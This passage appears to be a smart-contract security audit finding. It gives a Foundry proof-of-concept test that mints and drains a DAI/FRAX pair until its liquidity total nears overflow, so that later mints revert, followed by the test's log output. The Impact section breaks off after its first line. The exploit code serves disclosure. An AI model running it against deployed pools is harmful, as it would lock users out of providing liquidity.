```solidity
        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
        for(uint i = 0; i < 11; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            uint liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }
        DAI.transfer(address(pair), 10_000_000);
        FRAX.transfer(address(pair), 10_000_000);
        vm.expectRevert();
        pair.mint(address(this));
    }
```
Run command: `forge test --match-test testDestroyPair  -vv`
Output:
```javascript
[PASS] testDestroyPair() (gas: 51917763)
Logs:
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 9999000
  total liq: 9999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 50000000000000
  total liq: 50000009999000
  DAI balance: 1
  FRAX balance: 2
 ...SNIP...
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 19531281250021875008750002187500350000035000002000000050000000000000
  total liq: 19531285156278125013125003937500787500105000009000000450000009999000
  DAI balance: 1
  FRAX balance: 2
  pair: 0x181a7469a02658E0E9b0341cd64B62e5D0C30602 liquidity: 97656425781390625065625019687503937500525000045000002250000050000000000000
  total liq: 97656445312675781343750032812507875001312500150000011250000500000009999000
  DAI balance: 1
  FRAX balance: 2
```
As seen, one user can cause total liquidity to reach close to the maximum amount near overflow, which will cause any future minting attempts to overflow causing a revert. 

## Impact

This leads to 2 main issues:
